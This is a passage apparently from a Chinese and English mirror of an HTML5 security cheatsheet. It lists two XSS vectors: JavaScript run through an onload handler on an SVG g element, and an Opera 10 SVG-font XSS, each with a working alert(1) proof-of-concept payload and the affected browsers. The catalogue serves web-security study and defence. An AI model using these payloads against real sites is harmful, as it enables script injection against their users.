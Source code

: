 reporter：.mario

## SVG 内的向量

### 通过 SVG 中 G 标签的 onload 属性执行 Javascript#11test

SVG 文件中可以通过任意元素的 onload 事件执行 Javascript,且不需要用户交互

```
<svg ><g onload="javascript:alert(1)"></g></svg> 
```

在上传时不能把 SVG 当图片处理,因为它可以包含任意 HTML,且能被浏览器解析

*   opera 10.0
*   opera 12.0

*   chrome 4.0

*   chrome 35.0

*   firefox 3.0

*   firefox 3.6.28

*   safari 5.0

*   safari 5.1.7

*   internet explorer 9.0

*   internet explorer latest

*   xss

*   svg
*   onload
*   opera
*   firefox
*   chrome
*   internet explorer

*   [`developer.mozilla.org/en/SVG`](https://developer.mozilla.org/en/SVG)

reporter：.mario

### Opera 10 SVG font XSS#43test

Opera 10.00 and later minor versions allow using SVG fonts and will - as soon as the font file has loaded even execute embedded JavaScript. The current example utilizes a load event handler to execute the JavaScript without user interaction as soon as the font file has been fully loaded.

```
<?xml version="1.0" standalone="no"?> <html > <head> <style type="text/css"> @font-face {font-family: y; src: url("font.svg#x") format("svg");} body {font: 100px "y";} </style> </head> <body>Hello</body> </html>``<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg onload="alert(1)" ><defs><font id="x"><font-face font-family="y"/></font></defs></svg>required_mime: image/svg+xmlcrossdomain: 0path: [`html5sec.org/font.svg`](http://html5sec.org/font.svg)name: font.svg 
```
